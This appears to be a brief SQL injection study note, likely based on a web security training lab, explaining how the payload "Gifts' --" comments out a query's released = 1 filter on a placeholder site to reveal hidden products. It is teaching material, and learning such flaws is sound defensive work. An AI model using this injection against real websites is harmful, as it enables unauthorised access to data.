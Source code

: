 
## Retrieving Hidden Data

Target URL: https://insecure-website.com/products?category=Gifts
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Exploit URL: https://insecure-website.com/products?category=Gifts' --
```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

- -- is a comment indicator in SQL

In Result, all produces are displayed -> including unreleased products